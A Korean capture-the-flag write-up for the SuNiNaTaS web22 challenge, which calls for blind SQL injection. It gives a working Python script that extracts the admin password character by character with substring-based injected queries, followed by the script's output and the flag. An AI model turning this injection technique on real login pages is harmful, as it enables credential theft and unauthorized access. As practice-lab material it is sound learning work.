

# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**




# **Write-Up**

Blind SQLi를 하라는데 필터링 겁나게 많다.

솔직히 서버가 개판나서, 필터링이 될 때도 있고, 안될때도 있고, 쿼리가 성공할 때도 있고, 실패할 때도 있어서 시간이 좀 걸렸다...... (+ white space도 필터링한다면서 구라침)

다음과 같은 Python Script로 FLAG를 획득할 수 있다.

```python
import urllib
import urllib.request
import string

ascii_set   = string.printable.replace(" \t\n\r\x0b\x0c","")
flag        = ''
for i in range(1, 100):
    old_flag_len    = len(flag)
    for c in ascii_set:
        id      = urllib.parse.quote('admin\' and substring(pw,{},1)=\'{}\'--'.format(i, c))
        pw      = urllib.parse.quote('1234')
        url     = 'http://suninatas.com/challenge/web22/web22.asp?id='+id+'&pw='+pw
        request = urllib.request.Request(url=url)
        response= urllib.request.urlopen(request)
        result  = response.read().decode()
        if 'OK' in result:
            flag += c
            print('current flag\t: {}'.format(flag))
            break
    if old_flag_len == len(flag): break

[Output]
current flag    : N
current flag    : N1
current flag    : N1c
current flag    : N1c3
current flag    : N1c3B
current flag    : N1c3Bi
current flag    : N1c3Bil
current flag    : N1c3Biln
current flag    : N1c3Bilnl
current flag    : N1c3Bilnl)
```


# **FLAG**

**N1c3Bilnl)**